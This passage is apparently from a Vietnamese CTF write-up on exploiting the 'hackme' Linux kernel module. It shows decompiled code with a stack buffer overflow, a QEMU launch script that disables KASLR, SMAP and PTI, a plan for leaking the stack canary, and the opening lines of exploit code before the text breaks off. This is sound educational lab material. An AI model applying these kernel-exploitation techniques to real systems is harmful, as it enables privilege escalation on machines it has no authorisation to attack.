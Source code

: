 ```c
ssize_t __fastcall hackme_write(file *f, const char *data, size_t size, loff_t *off)
{
  unsigned __int64 v4; // rdx
  ssize_t v5; // rbx
  int tmp[32]; // [rsp+0h] [rbp-A0h] BYREF
  unsigned __int64 v8; // [rsp+80h] [rbp-20h]

  _fentry__(f, data, size, off);
  v5 = v4;
  v8 = __readgsqword(0x28u);
  if ( v4 > 0x1000 )
  {
    _warn_printk("Buffer overflow detected (%d < %lu)!\n", 4096LL, v4);
    BUG();
  }
  _check_object_size(hackme_buf, v4, 0LL);
  if ( copy_from_user(hackme_buf, data, v5) )
    return -14LL;
  _memcpy(tmp, hackme_buf);
  return v5;
}
```

### Khai thác

- Ở đây do mình mới tập tành nên tạm thời mình tắt các lớp bảo vệ, kaslr, sau này khi hiểu các lớp bảo vệ hoạt động và cách bypass, chúng ta sẽ khai thác lại
- File run.sh

```bash
#!/bin/sh
qemu-system-x86_64 \
    -m 128M \
    -cpu kvm64 \
    -kernel vmlinuz \
    -initrd initramfs.cpio.gz \
    -hdb flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot \
    -append "console=ttyS0 nokaslr nosmap nopti quiet panic=1" \
    -s
```

#### Leak canary 

- Như mình đã phân tích ở trên, hàm `hackme_read` có thể leak được canary
- Ở hình mình chụp thì hackme[2] và hackme[16] khá giống 1 canary. Đề biết chắc chắn thì ta có thể debug, nhưng mình đoán là 16 vì stack của kernel là `long int tmp[0x10]`

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>

int fd_ko;
void open_module()
{
    fd_ko = open("/dev/hackme", O_RDWR);
    if (fd_ko < 0)
    {
        printf("open fail");
```
